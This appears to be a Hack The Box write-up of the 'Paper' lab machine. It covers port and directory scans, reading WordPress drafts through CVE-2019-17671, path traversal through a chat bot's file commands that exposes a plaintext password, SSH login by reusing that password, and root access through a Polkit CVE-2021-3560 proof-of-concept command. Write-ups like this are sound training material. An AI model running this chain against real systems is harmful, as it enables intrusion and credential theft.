 > Author: **[secnigma][author-profile]**

## Discovery

### Port scanning

```shell
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-07-03T08:52:34
| Not valid after:  2022-07-08T10:32:34
| MD5:   579a 92bd 803c ac47 d49c 5add e44e 4f84
|_SHA-1: 61a2 301f 9e5c 2603 a643 00b5 e5da 5fd5 c175 f3a9
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```

### Directories

```shell
/.html                (Status: 403) [Size: 199]
/.htm                 (Status: 403) [Size: 199]
/.                    (Status: 403) [Size: 199691]
/manual               (Status: 301) [Size: 235] [--> http://10.10.11.143/manual/]
/.htaccess            (Status: 403) [Size: 199]
/.htc                 (Status: 403) [Size: 199]
/.html_var_DE         (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/.html.               (Status: 403) [Size: 199]
/.html.html           (Status: 403) [Size: 199]
/.htpasswds           (Status: 403) [Size: 199]
/.htm.                (Status: 403) [Size: 199]
/.htmll               (Status: 403) [Size: 199]
/.html.old            (Status: 403) [Size: 199]
/.ht                  (Status: 403) [Size: 199]
/.html.bak            (Status: 403) [Size: 199]
/.htm.htm             (Status: 403) [Size: 199]
/.html1               (Status: 403) [Size: 199]
/.hta                 (Status: 403) [Size: 199]
/.htgroup             (Status: 403) [Size: 199]
/.html.printable      (Status: 403) [Size: 199]
/.html.LCK            (Status: 403) [Size: 199]
/.htm.LCK             (Status: 403) [Size: 199]
/.html.php            (Status: 403) [Size: 199]
/.htaccess.bak        (Status: 403) [Size: 199]
/.htx                 (Status: 403) [Size: 199]
/.htmls               (Status: 403) [Size: 199]
/.htlm                (Status: 403) [Size: 199]
/.html-               (Status: 403) [Size: 199]
/.htm2                (Status: 403) [Size: 199]
/.htuser              (Status: 403) [Size: 199]
````

### Web browsing

As seen in the previous section, the server is running Apache On CentOS:

![][frontpage]

And in Burpsuite:

```
HTTP/1.1 404 Not Found
Date: Thu, 19 May 2022 09:43:26 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Content-Length: 196
Connection: close
Content-Type: text/html; charset=iso-8859-1
```

After adding `office.paper` to the `/etc/hosts`, this comment stands out:

![][comment]

It is tempting to enumerate the blog posts URLs, but let's get more
information on Wordpress first.

## Viewing the "hidden" drafts

The domain `office.htb` appears in the feed too:

```
http://office.htb/?p=29</guid
http://office.htb/?p=31</guid
http://office.htb/?p=38</guid
http://office.htb/wp-content/uploads/2021/06/handshake-michael-1.jpg
http://office.paper/index.php/2021/06/19/feeling-alone/#comments</comments
http://office.paper/index.php/2021/06/19/feeling-alone/feed/</wfw:commentRss
http://office.paper/index.php/2021/06/19/feeling-alone/</link
http://office.paper/index.php/2021/06/19/hello-scranton/#comments</comments
http://office.paper/index.php/2021/06/19/hello-scranton/feed/</wfw:commentRss
http://office.paper/index.php/2021/06/19/hello-scranton/</link
http://office.paper/index.php/2021/06/19/secret-of-my-success/feed/</wfw:commentRss
http://office.paper/index.php/2021/06/19/secret-of-my-success/</link
http://office.paper/index.php/2021/06/19/secret-of-my-success/#respond</comments
http://office.paper/index.php/feed/
http://office.paper</link
http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png</url
http://office.paper/wp-content/uploads/2021/06/handshake-michael-1-300x261.jpg
http://office.paper/wp-content/uploads/2021/06/handshake-michael-1.jpg
http://purl.org/dc/elements/1.1/
http://purl.org/rss/1.0/modules/content/
http://purl.org/rss/1.0/modules/slash/
http://purl.org/rss/1.0/modules/syndication/
https://wordpress.org/?v=5.2.3</generator
http://wellformedweb.org/CommentAPI/
http://www.w3.org/2005/Atom
```

Wordpress version is `5.2.3`, which dates back to 2019:

![][wordpress-version]

Looking at [CVE Details][cve-list], close to 40 vulnerabilities could apply.

The drafts can be seen thanks to [CVE 2019-17671][cve-2019-17671]:

![][draft]

Which leads to the chat server:

![][chat-server]

## The chat server

A lot of information can be gathered from the API calls, but the best is in
the chat itself:

![][recyclops-commands]

The bot implements LFI via the commands `recyclops list ..`:

```
drwx------ 11 dwight dwight 281 Feb 6 07:46 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 May 19 04:40 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```

And `recyclops file ../hubot/.env`:

```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

The password works as SSH credentials!..

## PE

[LinPEAS][linpeas] reveals that the box is vulnerable to CVE 2021-3560,
aka Polkit PE. There's a [POC][cve-2021-3560] made by the author of the box.

It needed 3 runs to work for me:

```shell
bash poc.sh -u=apehex -p=heyhey
su apehex
sudo bash
```

[author-profile]: https://app.hackthebox.com/users/92926
[recyclops-commands]: images/recyclops-commands.png
[comment]: images/comment.png
[chat-server]: images/chat-server.png
[cve-2019-17671]: https://www.cvedetails.com/cve/CVE-2019-17671/
[cve-2021-3560]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[cve-list]: https://www.cvedetails.com/product/4096/Wordpress-Wordpress.html?vendor_id=2337
[draft]: images/draft.png
[frontpage]: images/frontpage.png
[wordpress-version]: images/wordpress-version.png
